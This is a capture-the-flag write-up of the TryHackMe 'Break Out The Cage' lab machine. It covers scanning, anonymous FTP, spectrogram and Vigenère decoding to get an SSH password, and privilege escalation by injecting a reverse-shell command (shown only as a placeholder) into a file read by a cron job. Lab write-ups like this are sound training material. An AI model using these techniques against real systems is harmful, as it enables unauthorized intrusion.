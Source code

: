 ![Banner](Images/banner.png)

# Break Out The Cage
**Room by:** [Magna](https://tryhackme.com/p/Magna)
<br />**Difficulty:** Easy
<br />**URL:** https://tryhackme.com/room/breakoutthecage1

A fun box, something for everyone. Got caught up trying to escape the Wall command, but after that root is simple. 

# ~ Enumeration:

### **Nmap:**
```

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             396 May 25 23:33 dad_tasks
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.11.9.28
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dd:fd:88:94:f8:c8:d1:1b:51:e3:7d:f8:1d:dd:82:3e (RSA)
|   256 3e:ba:38:63:2b:8d:1c:68:13:d5:05:ba:7a:ae:d9:3b (ECDSA)
|_  256 c0:a6:a3:64:44:1e:cf:47:5f:85:f6:1f:78:4c:59:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Nicholas Cage Stories
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun 15 21:41:24 2020 -- 1 IP address (1 host up) scanned in 8.36 seconds

```
### Web-server 
![web-server](Images/html.png)
Not a lot happening here..

### Gobuster:
```
===============================================================
2020/06/16 23:30:28 Starting gobuster
===============================================================
/images (Status: 301)
/html (Status: 301)
/scripts (Status: 301)
/contracts (Status: 301)
/auditions (Status: 301)
/server-status (Status: 403)
===============================================================
2020/06/16 23:38:25 Finished
===============================================================
```
- /scripts ; contains a bunch of random ~film~ scripts.
- /auditions/must_practice_corrupt_file.mp3 ; Nick Cage audio clip with weird noise...
- /contracts : contains empty file 

### FTP:

```
220 (vsFTPd 3.0.3)
Name (10.10.154.188:userone): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             396 May 25 23:33 dad_tasks
226 Directory send OK.
ftp> get dad_tasks

```
# ~ Foothold:
Download `/auditions/must_practice_corrupt_file.mp3`
<br />Load the MP3 into Audacity and check the spectrogram at the  point the strange noise starts, it reveals a string/pass phrase :  
![Spectrogram](Images/spectogram.png)
`Not Weston's password tho.. `

Now lets look at the file we 'yanked' from FTP: `cat dad_tasks`:
```
UWFwdyBFZWtjbCAtIFB2ciBSTUtQLi4uWFpXIFZXVVIuLi4gVFRJIFhFRi4uLiBMQUEgWlJHUVJPISEhIQpTZncuIEtham5tYiB4c2kgb3d1b3dnZQpGYXouIFRtbCBma2ZyIHFnc2VpayBhZyBvcWVpYngKRWxqd3guIFhpbCBicWkgYWlrbGJ5d3FlClJzZnYuIFp3ZWwgdnZtIGltZWwgc3VtZWJ0IGxxd2RzZmsKWWVqci4gVHFlbmwgVnN3IHN2bnQgInVycXNqZXRwd2JuIGVpbnlqYW11IiB3Zi4KCkl6IGdsd3cgQSB5a2Z0ZWYuLi4uIFFqaHN2Ym91dW9leGNtdndrd3dhdGZsbHh1Z2hoYmJjbXlkaXp3bGtic2lkaXVzY3ds%
```

Decoded base64 returns:
```
Qapw Eekcl - Pvr RMKP...XZW VWUR... TTI XEF... LAA ZRGQRO!!!!
Sfw. Kajnmb xsi owuowge
Faz. Tml fkfr qgseik ag oqeibx
Eljwx. Xil bqi aiklbywqe
Rsfv. Zwel vvm imel sumebt lqwdsfk
Yejr. Tqenl Vsw svnt "urqsjetpwbn einyjamu" wf.

Iz glww A ykftef.... <REDACTED>
```
The decoded base64 string looks like ROT13 or a ceaser cypher?
<br /> Hmm.. Nope!
<br />Ahh there was a challenge in 'RACTF' a few weeks ago that used a Vigenère cypher..
>The Vigenère cipher is a method of encrypting alphabetic text by using a series of interwoven Caesar ciphers, based on the letters of a keyword. It employs a form of polyalphabetic substitution.

Vigenère requires a key or pass phrase to decode the text. Let's use the text we found in the MP3 file earlier.

```
Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. <SNIP>
Two. <SNIP
Three. <SNIP>
Four. <SNIP>
Five. <SNIP>

In case I forget.... <ANSWER TO TASK 1 FOUND HERE>

```

<br />Now we have Weston's password lets ssh into the box: `ssh weston@cage.thm`

# ~ PrivEsc to Cage:
Let's perform some basic enumeration and see what we find..
<br />`id` ; note group (cage)
```
uid=1001(weston) gid=1001(weston) groups=1001(weston),1000(cage)

```
`sudo -l`
```
User weston may run the following commands on national-treasure:
    (root) /usr/bin/bees
```
`cat /usr/bin/bees`
```
#!/bin/bash

wall "AHHHHHHH THEEEEE BEEEEESSSS!!!!!!!!"
```
`find / -perm -4000 2>/dev/null`
> Nothing interesting here..

Hmm keep getting 'walled' with random Nicholas Cage quotes.. So I uploaded `pspy64` to the box, `chmod +x ; ./pspy64`:
![pspy](Images/pspy.png)
We can see that the file `spread_the_quotes.py` is being run as user:cage.
<br />Alternatively, `find / -type d -group cage 2>/dev/null/` will return the same results:

```

/opt/.dads_scripts
/opt/.dads_scripts/spread_the_quotes.py
/opt/.dads_scripts/.files
/opt/.dads_scripts/.files/.quotes

```

If we `cat spread_the_quotes.py` we can see its calling 'wall' + input from .quotes. This is our attack route.
Modify `.quotes` to send us a python reverse shell:

```bash
1. rm .quotes ; vim .quotes
2. Frees3c was here ; <REV SHELL HERE>
3. :wq

```
Save and wait for the cronjob to run the script :
![Rev_success](Images/cage_rev_shell.png)

# ~ Root;
`ls -la`

```bash

drwxrwxr-x 2 cage cage 4096 May 25 13:00 email_backup
-rw-rw-r-- 1 cage cage  230 May 26 08:01 Super_Duper_Checklist

```
`cat Super_Duper_Checklist`

```

<Blah>
<Blah>
5 - Figure out why Weston has this etched into his desk: THM{ANSWER NO.2 FOUND HERE}

```

`email_backup/`

- email_1 : note "face" repeated several times.
- email_2 : Sean's user name is root? 
- email_3 : note "face" is mentioned several more times, and another _jumbled_ up word.


<br />Decode the string to reveal a password. Then `su` to root!!
<br />Enumerate the email_backup directory in /root to find  the root flag:

```
Dear Sean

<REDACTED TEXT>
<REDACTED TEXT>

THM{ROOT FLAG HERE}

Thank you

Sean Archer

```

<br /> _**Thanks for reading.**_


# Resources:
<br />https://www.boxentriq.com/code-breaking/vigenere-cipher
<br />https://github.com/DominicBreuker/pspy

